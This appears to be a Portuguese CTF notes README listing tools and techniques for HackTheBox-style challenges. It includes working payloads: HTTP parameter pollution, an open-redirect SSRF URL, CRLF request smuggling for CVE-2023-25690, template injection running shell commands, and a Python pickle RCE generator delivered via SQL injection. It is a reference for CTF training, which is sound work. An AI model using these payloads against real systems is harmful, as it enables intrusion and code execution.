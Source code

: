 <h1 align="center">Dicas e usos de ferramentas</h1>
<h3 align="center">Técnicas, Vulnerabilidades e Ferramentas que usei para referências em desafios futuros</h3>


### Eternal Loop:
- fcrackzip

### Photon Lockdown:
- unsquashfs

### 0xBOverchunked:
- sqlmap

### HTBank:
- HTTP Parameter Polution (HPP):
    ```
    curl --location 'http://94.237.55.42:33198/api/withdraw' \
    --form 'account="0"' \
    --form 'amount="0"' \ # Precisa ser zero para o payload passar
    --form 'amount="1337"' #
    ```

### Saturn:
- SSRF (Server Side Request Forgery)

### ProxyAsAService:
- Open Redirect Attack
    ```
    http://94.237.60.170:33195/?url=@0.0.0.0:1337/debug/environment
    ```

### ApacheBlaze:
- HTTP Request Smuggling Attack (CVE-2023–25690)
    ```
    http://94.237.48.205:56566/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/
    ```
    https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection

### RenderQuest:
- https://webhook.site/ -> Injection content {{.FetchServerInfo "cat /flag*"}} 

### C.O.P:
- Pickle Remote Code Execution
    ```
    import pickle
    import base64
    import os

    payload = 'cp flag.txt application/static/.' # Payload

    class RCE:
        def __reduce__(self):
            return os.system, (payload,)

    if __name__ == '__main__':
        print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
    ```
    ```
    Injetar payload:
    
    GET http://94.237.49.121:31295/view/' UNION SELECT 'gASVOwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCBjcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvLpSFlFKULg==
    ```

    Recuperar flag:
    ```
    GET http://94.237.49.121:31295/static/flag.txt
    ```

### EasterBunny:
